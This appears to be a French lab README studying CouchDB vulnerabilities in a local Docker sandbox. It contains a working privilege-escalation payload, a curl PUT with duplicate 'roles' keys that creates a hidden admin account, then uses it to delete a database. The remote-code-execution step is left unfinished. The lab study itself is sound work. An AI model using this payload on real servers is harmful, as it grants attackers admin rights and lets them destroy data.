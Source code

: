 # Etude_Faille_CVE_12636
## Téléchargement du depot GITHUB sur votre machine virtuelle
   https://github.com/Guillaumeclavel/Etude_Faille_CVE_12636  

==> Dépot Public : pas de droit accès à gérer 

## Extraction et positionnement dans le répertoire de travail 
 
## ETAPE 1 : Création du docker contenenat le serveur "couchdb"
### Lancement du docker-compose ou 
`docker container run -d --name couchdb-sandbox -p 5984:5984 couchdb:1.6.1`

### Vérification de la création du serveur:
`curl -X GET http://localhost:5984`

## ETAPE 2 : Mise en en évidence de la faille 12635
### Vérification des base de données créée:
`curl -X GET http://localhost:5984/_all_dbs`

### Création d'une nouvelle base:
`curl -X PUT http://localhost:5984/records`

### Création du compte admin: 
`curl -X PUT http://localhost:5984/_config/admins/admin -d '"admin"'`  

log : admin, mdp : admin

### Creation d'une base:
`curl -X PUT http://localhost:5984/new_records`  
Pas bon car par le bon compte utilisateur.  

`curl -X PUT http://admin:admin@localhost:5984/new_records`
Fonctionnelle car utilisation du compte admin.

### Création d'un doc nouvel utilisateur admin avec la faille:
`curl -X PUT http://localhost:5984/_users/org.couchdb.user:guest \
    -H "Accept: application/json" \
    -H "Content-Type: application/json" \
    -d '{"name": "guest", "password": "guest", "roles": ["_admin"], "roles": [], "type": "user"}'`  

### Suppression du répertoire créer précédement:
`curl -X DELETE http://localhost:5984/new_records`
Ne fonctionne pas car pas de droit.

`curl -X DELETE http://guest:guest@localhost:5984/new_records`  
Fonctionne car utilisation d'un compte admin créé précédement (Escalade de privilege)
## ETAPE 3 : Exploitation de la faille 12636
suppression (Je n'y arrive pas)
docker images pour voir les dockers
docker stop 4138cbdb4df8 pour stopper le docker concerné
docker container rm 4138cbdb4df8 pour supprimer
